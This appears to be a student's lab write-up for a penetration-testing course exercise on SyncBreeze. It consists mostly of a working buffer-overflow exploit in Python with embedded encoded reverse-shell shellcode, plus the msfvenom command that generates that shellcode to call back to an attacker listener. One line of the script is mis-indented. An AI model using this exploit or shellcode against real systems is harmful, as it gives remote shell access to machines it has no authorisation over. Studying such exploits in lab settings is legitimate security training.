 ### 11.2.10.1 Exercise
#### 1. Update the exploit so that SyncBreeze still runs after exploitation.

1. Generated new shellcode with exit function=thread.

   ```bash
   msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
   ```

2. Updated code

   ```python
   #!/usr/bin/python                                                                                                 
   import socket       
   
   try:                 
       print "\nSending evil buffer....."
                                                                                                                     
       filler = "A" * 780
       eip  = "\x83\x0c\x09\x10"        
       offset = "C" * 4
       nops = "\x90" * 10
       shellcode = ("\xda\xc4\xbe\xe5\x02\x9a\x99\xd9\x74\x24\xf4\x5b\x29\xc9\xb1"
               "\x52\x31\x73\x17\x03\x73\x17\x83\x0e\xfe\x78\x6c\x2c\x17\xfe"
               "\x8f\xcc\xe8\x9f\x06\x29\xd9\x9f\x7d\x3a\x4a\x10\xf5\x6e\x67"
               "\xdb\x5b\x9a\xfc\xa9\x73\xad\xb5\x04\xa2\x80\x46\x34\x96\x83"
               "\xc4\x47\xcb\x63\xf4\x87\x1e\x62\x31\xf5\xd3\x36\xea\x71\x41"
               "\xa6\x9f\xcc\x5a\x4d\xd3\xc1\xda\xb2\xa4\xe0\xcb\x65\xbe\xba"
               "\xcb\x84\x13\xb7\x45\x9e\x70\xf2\x1c\x15\x42\x88\x9e\xff\x9a"
               "\x71\x0c\x3e\x13\x80\x4c\x07\x94\x7b\x3b\x71\xe6\x06\x3c\x46"
               "\x94\xdc\xc9\x5c\x3e\x96\x6a\xb8\xbe\x7b\xec\x4b\xcc\x30\x7a"
               "\x13\xd1\xc7\xaf\x28\xed\x4c\x4e\xfe\x67\x16\x75\xda\x2c\xcc"
               "\x14\x7b\x89\xa3\x29\x9b\x72\x1b\x8c\xd0\x9f\x48\xbd\xbb\xf7"
               "\xbd\x8c\x43\x08\xaa\x87\x30\x3a\x75\x3c\xde\x76\xfe\x9a\x19"
               "\x78\xd5\x5b\xb5\x87\xd6\x9b\x9c\x43\x82\xcb\xb6\x62\xab\x87"
               "\x46\x8a\x7e\x07\x16\x24\xd1\xe8\xc6\x84\x81\x80\x0c\x0b\xfd"
               "\xb1\x2f\xc1\x96\x58\xca\x82\x58\x34\xa3\x8a\x31\x47\x4b\x34"
               "\x82\xce\xad\x20\x12\x87\x66\xdd\x8b\x82\xfc\x7c\x53\x19\x79"
               "\xbe\xdf\xae\x7e\x71\x28\xda\x6c\xe6\xd8\x91\xce\xa1\xe7\x0f"
               "\x66\x2d\x75\xd4\x76\x38\x66\x43\x21\x6d\x58\x9a\xa7\x83\xc3"
               "\x34\xd5\x59\x95\x7f\x5d\x86\x66\x81\x5c\x4b\xd2\xa5\x4e\x95"
               "\xdb\xe1\x3a\x49\x8a\xbf\x94\x2f\x64\x0e\x4e\xe6\xdb\xd8\x06"
               "\x7f\x10\xdb\x50\x80\x7d\xad\xbc\x31\x28\xe8\xc3\xfe\xbc\xfc"
               "\xbc\xe2\x5c\x02\x17\xa7\x7d\xe1\xbd\xd2\x15\xbc\x54\x5f\x78"
               "\x3f\x83\x9c\x85\xbc\x21\x5d\x72\xdc\x40\x58\x3e\x5a\xb9\x10"
               "\x2f\x0f\xbd\x87\x50\x1a")
   
   
       inputBuffer = filler + eip + offset + nops + shellcode
   
       content = "username=" + inputBuffer + "&password=A"
   
           buffer = "POST /login HTTP/1.1\r\n"
       buffer += "Host: 192.168.216.10\r\n"
       buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
       buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
       buffer += "Accept-Language: en-US,en;q=0.5\r\n"
       buffer += "Referer: http://192.168.216.10/login\r\n"
       buffer += "Connection: close\r\n"
       buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
       buffer += "Content-Length: "+str(len(content))+"\r\n" 
       buffer += "\r\n"
   
       buffer += content
   
       s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
            
       s.connect(("192.168.216.10", 80))
       s.send(buffer)
            
       s.close()
       print "\Done!"
   except:
       print "\nCould not connect!"
   ```

3. Re-ran code against server, gained shell & exited shell (I had to hit CTRL+C to terminate the netcat session after exiting).
   ![image-20200706124559098](.11.2.10.1.assets/image-20200706124559098.png)

4. Checked status of service & made sure I could connect again without restarting the service:
   ![image-20200706124639253](.11.2.10.1.assets/image-20200706124639253.png)
   ![image-20200706124733637](.11.2.10.1.assets/image-20200706124733637.png)



